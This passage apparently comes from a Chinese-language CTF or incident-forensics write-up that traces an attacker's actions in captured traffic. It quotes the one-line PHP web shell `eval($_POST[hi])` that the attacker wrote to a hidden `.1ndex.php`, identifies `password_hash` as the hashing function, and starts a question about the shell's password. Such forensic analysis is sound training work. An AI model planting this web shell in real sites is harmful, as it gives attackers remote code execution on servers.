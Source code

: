 ```bash
<?php eval($_POST[hi]); ?>
```

于是后面的代码执行就顺理成章。发现后面对一些 php 文件进行有导出成 txt 的操作。  
[![](assets/1702520939-49e67a731371d8c43d6916728053d8f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180918-ad90d6bc-999f-1.png)  
看到 4.txt，就是`Authentication.php`的代码内容，可以看到代码注释是`Create password hash from plaintext password.`。加密函数用的是`password_hash`。  
[![](assets/1702520939-a0c27e3de4e5265877e72b4707f09589.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213180932-b5931f82-999f-1.png)  
那么这道题的答案就是**password\_hash**

### mid-3

> 题目内容：写入的第一次的 shell 的连接密码是多少？

在上题说过，第一次写入文件是`.1ndex.php`，把写入的文件内容找到。  